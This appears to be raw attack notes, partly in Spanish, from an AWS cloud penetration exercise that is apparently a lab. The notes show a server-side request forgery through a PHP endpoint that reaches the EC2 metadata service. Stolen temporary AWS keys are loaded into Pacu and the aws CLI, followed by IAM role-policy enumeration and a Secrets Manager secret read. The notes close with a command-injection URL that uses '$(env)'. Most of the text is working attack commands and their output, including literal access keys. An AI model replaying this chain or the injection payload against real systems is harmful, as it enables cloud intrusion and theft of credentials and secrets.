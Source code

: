 http://hackerone.etercloud.com/api/animales.php?url=http://169.254.169.254/latest/user-data

ami-id ami-launch-index ami-manifest-path autoscaling/ block-device-mapping/ events/ hostname iam/ identity-credentials/ instance-action instance-id instance-life-cycle instance-type local-hostname local-ipv4 mac metrics/ network/ placement/ profile public-hostname public-ipv4 public-keys/ reservation-id security-groups services/ system

# 1. Clona el repositorio
git clone https://github.com/RhinoSecurityLabs/pacu.git
cd pacu

# 2. Crea un entorno virtual (recomendado)
python3 -m venv venv
source venv/bin/activate

# 3. Instala dependencias
pip install -r requirements.txt

# 4. Ejecuta Pacu
python3 pacu.py

curl -fsSL https://archive.kali.org/archive-key.asc | sudo gpg --dearmor -o /etc/apt/trusted.gpg.d/kali-archive-keyring.gpg


Pacu (first_PTaws:No Keys Set) > set_keys
Setting AWS Keys...
Press enter to keep the value currently stored.
Enter the letter C to clear the value, rather than set it.
If you enter an existing key_alias, that key's fields will be updated instead of added.
Key alias must be at least 2 characters

Key alias [None]: demo
Access key ID [None]: ASIAW3MEDRMYITJOHILC
Secret access key [None]: Z1fKhCGfBBS5IYsqUDYqe/oo9Eqb4a+kESy94xGV
Session token (Optional - for temp AWS keys only) [None]: IQoJb3JpZ2luX2VjENH//////////wEaCX

Pacu (first_PTaws:demo) > aws sts get-caller-identity
{
    "UserId": "AROAW3MEDRMYOTHTE2Q43:i-0fb51ccca173174f9",
    "Account": "471112846128",
    "Arn": "arn:aws:sts::471112846128:assumed-role/RCE-ENTRYPOINT-Role/i-0fb51ccca173174f9"
}

Pacu (first_PTaws:demo) > 




_________________________________
┌─[✗]─[kmxbay@parrot]─[~]
└──╼ $aws configure
AWS Access Key ID [None]: ASIAW3MEDRMYITJOHILC
AWS Secret Access Key [None]: Z1fKhCGfBBS5IYsqUDYqe/oo9Eqb4a+kESy94xGV
Default region name [None]: us-east-1
Default output format [None]: json
┌─[kmxbay@parrot]─[~]
┌─[kmxbay@parrot]─[~]
└──╼ $nano ~/.aws/credentials
agregar la linea
aws_session_token = IQoJb3JpZ2luX2VjEN
-----------------------------------------
┌─[kmxbay@parrot]─[~]
└──╼ $aws sts get-caller-identity
{
    "UserId": "AROAW3MEDRMYOTHTE2Q43:i-0fb51ccca173174f9",
    "Account": "471112846128",
    "Arn": "arn:aws:sts::471112846128:assumed-role/RCE-ENTRYPOINT-Role/i-0fb51ccca173174f9"
}
┌─[kmxbay@parrot]─[~]
└──╼ $nano ~/.aws/credentials
┌─[kmxbay@parrot]─[~]
└──╼ $^C
┌─[✗]─[kmxbay@parrot]─[~]
└──╼ $aws iam list-attached-role-policies --role-name RCE-ENTRYPOINT-Role
{
    "AttachedPolicies": [
        {
            "PolicyName": "RCE-ENTRYPOINT-SecretsManagerReadPolicy",
            "PolicyArn": "arn:aws:iam::471112846128:policy/RCE-ENTRYPOINT-SecretsManagerReadPolicy"
        },
        {
            "PolicyName": "RCE-ENTRYPOINT-SelfRolePermissionsPolicy",
            "PolicyArn": "arn:aws:iam::471112846128:policy/RCE-ENTRYPOINT-SelfRolePermissionsPolicy"
        }
    ]
}
┌─[kmxbay@parrot]─[~]
└──╼ $aws iam get-policy --policy-arn arn:aws:iam::471112846128:policy/RCE-ENTRYPOINT-SecretsManagerReadPolicy
{
{
    "Policy": {
        "PolicyName": "RCE-ENTRYPOINT-SecretsManagerReadPolicy",
        "PolicyId": "ANPAW3MEDRMYNDVWE6CPL",
        "Arn": "arn:aws:iam::471112846128:policy/RCE-ENTRYPOINT-SecretsManagerReadPolicy",
        "Path": "/",
        "DefaultVersionId": "v1",
        "AttachmentCount": 1,
        "PermissionsBoundaryUsageCount": 0,
        "IsAttachable": true,
        "Description": "Permite a la instancia EC2 leer secretos de AWS Secrets Manager",
        "CreateDate": "2025-05-30T00:33:32+00:00",
        "UpdateDate": "2025-05-30T00:33:32+00:00",
        "Tags": [
            {
                "Key": "Project",
                "Value": "WebAppDemo"
            },
            {
                "Key": "Environment",
                "Value": "development"
            },
            {
                "Key": "ManagedBy",
                "Value": "Terraform"
            },
            {
                "Key": "Name",
                "Value": "RCE-ENTRYPOINT-SecretsManagerReadPolicy"
┌─[kmxbay@parrot]─[~]
└──╼ $aws  iam get-policy-version --version-id v1 --policy-arn arn:aws:iam::471112846128:policy/RCE-ENTRYPOINT-SecretsManagerReadPolicy
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "secretsmanager:ListSecrets",
                        "secretsmanager:GetSecretValue",
                        "secretsmanager:DescribeSecret"
                    ],
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2025-05-30T00:33:32+00:00"
    }
}
┌─[kmxbay@parrot]─[~]
└──╼ $aws secretsmanager get-secret-value --secret-id WebAppDemo/api_endpoint
{
    "ARN": "arn:aws:secretsmanager:us-east-1:471112846128:secret:WebAppDemo/api_endpoint-UePmoT",
    "Name": "WebAppDemo/api_endpoint",
    "VersionId": "terraform-2025053000335276060000000a",
    "SecretString": "https://fhk4sxsmz3.execute-api.us-east-1.amazonaws.com/dev/hello",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-05-29T18:33:52.796000-06:00"
}



https://fhk4sxsmz3.execute-api.us-east-1.amazonaws.com/dev/hello?op=2&message=$(env)